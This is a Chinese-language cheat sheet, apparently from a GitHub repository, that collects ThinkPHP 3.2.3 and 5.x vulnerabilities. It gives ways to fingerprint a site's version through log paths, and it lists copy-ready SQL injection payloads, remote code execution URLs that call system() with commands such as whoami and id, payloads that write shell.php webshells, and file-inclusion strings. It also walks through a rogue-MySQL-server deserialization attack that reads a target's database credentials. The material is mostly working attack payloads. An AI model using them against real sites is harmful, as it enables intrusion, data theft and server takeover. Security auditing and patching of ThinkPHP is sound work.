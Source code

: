 # ThinkPHP总结

介绍：这是一篇tp的漏洞总结，以及一些自己遇到过或思考过的tricks，

查找漏洞建议直接页面搜索版本号，例如这些关键字：5.1、5.0、3.2

---

问题：如何判断TP版本？

-   黑盒
    -   构造请求错误，如果目标错误管理不规范就可能显示tp版本信息
    -   请求`App/Runtime/Logs/Home/22_05_12.log`当天日志（tp3）
    -   请求`runtime/log/202205/12.log`当天日志（tp5）
-   白盒
    -   全局搜索`THINK_VERSION`（tp3），或者`VERSION`（tp5）
    -   看控制器方法的写法：类似M(xxxx)这种用一个大写字母来实例化（tp3）
-   开源的系统可以尝试去该系统的官网or站长下载这类源码站看系统介绍

## thinkphp5

### 注入类

```php
不开启debug和trace，只开启show_error_msg显示错误信息也可尝试利用报错注入
利用条件：需要有注入的tp版本，或者是二开代码中有可控输入+直接拼接。
# 判断开启show_error_msg是否开启？
1. 请求一个不存在的控制器或方法，如/user/userabc/index.html
2. 关闭时只会提示：页面错误！请稍后再试～
	开启时会提示：控制器不存在:app\user\controller\Userabc
# 实际案例：kyxscms（基于TP5.1.33，虽然开启了show_error_msg但是没有利用条件，本人在某次项目中看到有基于kyxscms二开的一个系统符合“二开代码中有可控输入+直接拼接”这个条件。）
```

```php
# 摘自吐司https://www.t00ls.com/viewthread.php?tid=65613
# 5.0.5左右的低版本
id=input("id");
data=db("users")->where("id",$id)->find();
```

```php
# 版本：5.0.13<=ThinkPHP<=5.0.15、 5.1.0<=ThinkPHP<=5.1.5
payload：/public/index.php/index/index？username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1
# 代码：
$username = request()->get('username/a');
db('users')->insert(['username' => $username]);
# 分析：https://github.com/lu2ker/PHP-Code/blob/main/ThinkPHP5之SQLI审计分析(一).md
```

```php
# 版本：ThinkPHP=5.0.10
payload：/public/index.php/index/index?username[0]=not like&username[1][0]=&username[1][1]=&username[2]=) union select 1,user()--+
# 代码：
$username = request()->get('username/a');
$result = db('users')->where(['username' => $username])->select();
# 分析：https://github.com/lu2ker/PHP-Code/blob/main/ThinkPHP5之SQLI审计分析(二).md
```

```php
# 版本：ThinkPHP=5.1.22
payload：/public/index.php/index/index?orderby[id`|updatexml(1,concat(0x7,user(),0x7e),1)%23]=1
# 代码：
$orderby = request()->get('orderby');
$result = db('users')->where(['username' => 'mochazz'])->order($orderby)->find();
# 分析：https://github.com/lu2ker/PHP-Code/blob/main/ThinkPHP5之SQLI审计分析(三).md
```

```php
# 不同版本 payload 需稍作调整：
5.0.0~5.0.21 、 5.1.3～5.1.10 ： id)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23
5.1.11～5.1.25 ： id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23
# 代码：
$options = request()->get('options');
$result = db('users')->max($options);
# 分析：https://github.com/lu2ker/PHP-Code/blob/main/ThinkPHP5之SQLI审计分析(四).md
```

```php
# 注意有没有直接拼接
	$id=$this->request->param('id'); # 这里是直接用request->param，默认也没有过滤器。
	$result = Db::table('users')->where("id=". $id)->find(); # 没有以数组形式传入where导致注入，
```

### getshell类

RCE的洞，黑盒测试的话直接上工具就行吧。

```php
# 文件包含
# 版本：5.0.0<=ThinkPHP5<=5.0.18 、5.1.0<=ThinkPHP<=5.1.10
payload：/index/index?cacheFile=1.jpg即可包含1.jpg
# 代码：
$this->assign(request()->get());
return $this->fetch(); // 当前模块/默认视图目录/当前控制器（小写）/当前操作（小写）.html
return $this->display(); //display方法也可以触发漏洞
# 分析：https://github.com/lu2ker/PHP-Code/blob/main/ThinkPHP5之文件包含审计分析(五).md
```

```php
# 代码执行
# 不同版本 payload 需稍作调整：
# ThinkPHP <= 5.0.13：
POST /?s=index/index
s=whoami&_method=__construct&method=&filter[]=system

# ThinkPHP <= 5.0.23、5.1.0 <= 5.1.16 需要开启框架app_debug
POST /
_method=__construct&filter[]=system&server[REQUEST_METHOD]=ls -al

# ThinkPHP <= 5.0.23 需要存在xxx的method路由，例如captcha
POST /?s=captcha HTTP/1.1
_method=__construct&filter[]=system&method=get&get[]=ls+-al
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls

# 分析：https://github.com/lu2ker/PHP-Code/blob/main/ThinkPHP5之任意方法调用RCE(六).md
```

```php
# 代码执行5.0.7<=ThinkPHP5<=5.0.22 、5.1.0<=ThinkPHP<=5.1.30
# 不同版本 payload 需稍作调整：
5.1.x ：
?s=index/\think\Request/input&filter[]=system&data=pwd
?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>
?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id

5.0.x ：
?s=index/think\config/get&name=database.username # 获取配置信息
?s=index/\think\Lang/load&file=../../test.jpg    # 包含任意文件
?s=index/\think\Config/load&file=../../t.php     # 包含任意.php文件
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
# 分析：https://github.com/lu2ker/PHP-Code/blob/main/ThinkPHP5漏洞分析之代码执行(七).md
```

[5.0.X反序列化利用链](https://github.com/Mochazz/ThinkPHP-Vuln/blob/master/ThinkPHP5/ThinkPHP5.0.X%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8%E9%93%BE.md)

[5.1.X 反序列化链子](https://github.com/lu2ker/PHP-Code/blob/main/TP5%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8%E9%93%BE.md)

[5.2.X反序列化利用链](https://github.com/Mochazz/ThinkPHP-Vuln/blob/master/ThinkPHP5/ThinkPHP5.2.X%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8%E9%93%BE.md)

[链子集合](https://github.com/ambionics/phpggc/tree/master/gadgetchains/ThinkPHP)

推荐阅读：

[挖掘暗藏ThinkPHP中的反序列利用链](https://blog.riskivy.com/%e6%8c%96%e6%8e%98%e6%9a%97%e8%97%8fthinkphp%e4%b8%ad%e7%9a%84%e5%8f%8d%e5%ba%8f%e5%88%97%e5%88%a9%e7%94%a8%e9%93%be/)

## thinkphp3.2.3

### 注入类

```php
# exp注入
$id = $_GET['id'];
$Admin = D("admin");
$data = $Admin->where(['Id' => $id])->limit('2')->select();

# payload：?id[0]=exp&id[1]==1 UNION ALL SELECT 1,2,3
# 两个等号，没错。具体分析看这里
# https://github.com/lu2ker/PHP-Code/blob/main/ThinkPHP3之SQLI审计分析.md
```

```php
# order by注入
$username=I("username");
$order=I("order");
$result= M('users')->where(array("username"=>$username))->order($order)->find();

# payload：username=admin&order[extractvalue(1,concat(0x7e,(select+database())))]
# 分析&实际案例：https://althims.com/2020/02/03/xyhcms-3-6/#xyhcms-v3-6-前台sql注入
```

下面这些摘自土司@[H0ward](https://www.t00ls.com/viewthread.php?tid=65613)

```php
# 框架级漏洞
$id=I('post.id');
$list = M('system_skin')->find($id);//select() delect()都会有问题
# payload:
id[where]=1’and
id[alias]=where 1 and
id[table]=users where 1 and

# save注入
$comdition["username"]=I("username");
$data["password"]=I("password");
$list = M('admin_user')->where($comdition)->save($data);
# payload:
username[0]=bind&username[1]=0+and(select+extractvalue(1,concat(0x7e,(select+database()))))&password=123   
```

```php
# 其余要注意的点
# 注意在对象创建的时候有没有用过滤器，没有的话输入就可控了。
	$id = I('id', 0, 'intval'); # 这是用了整数过滤器获取参数id
```

[开发中容易造成漏洞的写法](https://blog.csdn.net/Fly_hps/article/details/84954830)

### getshell类

-   [反序列化POC](https://github.com/lu2ker/PHP-Code/blob/main/thinkphp3%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96POC.php)，利用方式为：

    -   用`rogue_mysql_server`开启一个恶意Mysql服务器，在配置文件中填入想要读取的文件，比如读取目标数据库配置文件拿到数据库账户密码;
    -   POC里修改数据库配置为你的恶意mysql；
    -   发送序列化payload，恶意MySQL服务器可以读取到目标数据库配置文件内容；
    -   将POC中的数据库连接配置替换为目标的数据库配置，可修改需要注入的SQL语句，
    -   因为`ThinkPHP v3.2.*`默认使用的是PDO驱动来实现的数据库类，因为PDO默认是支持多语句查询的，所以这个点是可以堆叠注入的。也就是说这里可以使用导出数据库日志等手段实现Getshell，或者使用`UPDATE`语句插入数据进数据库内等操作。

    条件：目标数据库账户必须是root

    实际案例：[XYHCMS前台反序列化](https://github.com/M00nBack/vulnerability/tree/main/xyhcms/XYHCMS%E5%89%8D%E5%8F%B0%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96)
